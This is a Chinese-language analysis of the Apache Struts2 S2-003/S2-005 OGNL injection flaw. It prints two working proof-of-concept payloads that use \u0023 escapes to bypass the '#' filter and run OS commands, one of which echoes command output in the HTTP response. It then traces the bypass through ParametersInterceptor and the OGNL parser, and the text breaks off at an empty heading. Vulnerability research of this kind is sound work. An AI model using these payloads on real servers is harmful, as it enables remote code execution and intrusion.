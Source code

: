 
# S2-003&S2-005

XWork ParameterInterceptors bypass allows OGNL statement execution

S2-003和S2-005是同一个漏洞的本体和修复绕过。

poc:
```
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)
```

回显poc:
```
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

这个漏洞的核心问题在于xwork在获取到传入的参数时，如果我们可以传入#号就可以访问Ognl的上下文对象，但默认#号回被过滤，导致可以用`\u0023`或`\43`来绕过。

S2-005中通过增加安全配置来禁止静态方法调用和类方法执行，然而如果我们可以访问Ognl的上下文对象，就可以通过修改配置来绕过。

## 漏洞分析

当我们传入参数时，在`xwork-core-2.1.6.jar!\com\opensymphony\xwork2\interceptor\ParametersInterceptor.class` line 186获取参数

![image.png-72.2kB][4]

并且预设了`denyMethodExecution: true`。为了能够调用方法，poc的第一部分需要将denyMethodExecution设置为False。

然后进入
```
setParameters(action, stack, parameters);
```

在解析之前，还需要进行一次判断
![image.png-128.9kB][5]

这里主要是通过正则表达式`[[\p{Graph}\s]&&[^,#:=]]*`这里主要过滤了部分特殊字符，如果我们使用unicode来代替`#`这里就成功跳过了判断。

这部分的处理主要来自于`ognl-2.7.3-sources.jar!\ognl\JavaCharStream.java` readChar函数。

当`\`之后为`u`时，则会进行专门的处理，`\u0023`就会转化为`#`

![image.png-62.4kB][6]

## Ognl 


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cmil8bv3wv8592sutv0dbyep/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/mlwvf00mi58jlqh605a91185/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/pxpjlwykpgggdms4lxm27zgc/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u5v2n7g4080hawat8lr3p6xn/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ar1ks3jmcchlnjd37tmmhc27/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3pxtgw2juw6nsfsm4vmhxdyy/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/lyn5amkmmra6rbmuers34knr/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/kifut0voqab6sssl3mgyk2pf/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/cgy92yszm7yvvqovc1z9603a/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7sth7twxxrnajq77w6epgica/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rk9uc9eqftqi6a7tbwdh223m/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3cz9e9mbrl4dr99lisrw8s1a/image.png
  [13]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/z55ena7gzy4r83e4iz3y43fo/image.png
  [14]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/e195qeml6rrnez3f2ndgcnlu/image.png